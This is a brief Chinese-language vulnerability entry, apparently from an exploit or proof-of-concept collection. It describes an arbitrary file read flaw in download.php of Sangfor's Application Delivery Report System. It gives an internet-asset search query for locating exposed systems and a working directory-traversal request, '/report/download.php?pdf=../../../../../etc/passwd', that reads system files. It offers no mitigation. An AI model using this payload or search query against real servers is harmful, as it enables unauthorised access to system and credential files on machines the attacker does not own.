 # 

# 深信服 应用交付报表系统 download.php 任意文件读取漏洞

## 漏洞描述

深信服 应用交付报表系统 download.php文件存在任意文件读取漏洞，攻击者通过漏洞可以下载服务器任意文件

## 漏洞影响

```
深信服 应用交付报表系统
```

## 网络测绘

```
app="SANGFOR-应用交付报表系统"
```

## 漏洞复现

登录页面

![image-20220525144847811](./images/202205251448956.png)

验证POC

```
/report/download.php?pdf=../../../../../etc/passwd
```

![image-20220525144958637](./images/202205251449708.png)
